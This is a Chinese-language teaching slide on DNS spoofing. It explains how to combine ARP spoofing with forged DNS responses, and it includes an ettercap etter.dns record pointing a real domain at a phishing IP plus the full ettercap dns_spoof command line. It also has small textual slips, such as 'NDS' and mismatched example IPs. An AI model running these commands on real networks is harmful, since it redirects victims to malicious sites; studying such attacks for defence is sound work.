

# DNS欺骗攻击
先通过ARP欺骗，用网络嗅探器软件监听对方的DNS请求包，获得解析请求的ID和端口号。
立即向攻击者发送伪造的NDS响应数据包，目标主机收到后确认响应的ID和端口号无误，就会以为收到了正确的DNS响应数据包，而实际地址很可能被导向攻击者想让用户访问的恶意网站。
可以使用ettercap进行DNS欺骗。首先修改etter.dns文件（在安装目录下），即添加如下记录：目标域名   A   希望目标主机上的IP
如：www.sina.com.cn   A   192.168.83.128（假设192.168.82.128是钓鱼网站）
使用ettercap命令进行DNS欺骗：ettercap –T –q –P dns_spoof –M arp:remote /目标IP// /目标IP的网关//
如：Ettercap –T –q –P dns_spoof –M arp:remote /192.168.1.101// /192.168.1.1//